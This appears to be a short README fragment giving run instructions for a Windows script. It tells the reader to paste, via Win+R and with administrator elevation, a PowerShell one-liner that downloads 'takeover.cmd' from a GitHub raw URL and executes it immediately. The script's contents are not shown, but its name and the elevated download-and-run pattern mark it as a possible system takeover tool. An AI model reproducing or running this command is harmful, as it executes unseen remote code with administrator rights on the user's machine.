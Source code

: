 **How to run:**
- Win+R
- Paste:
>*cmd /k powershell  -command "Invoke-WebRequest -Uri https://raw.githubusercontent.com/Fidasek009/1337/main/takeover.cmd -OutFile .\takeover.cmd; .\takeover.cmd"*
- Ctr+Shift+Enter
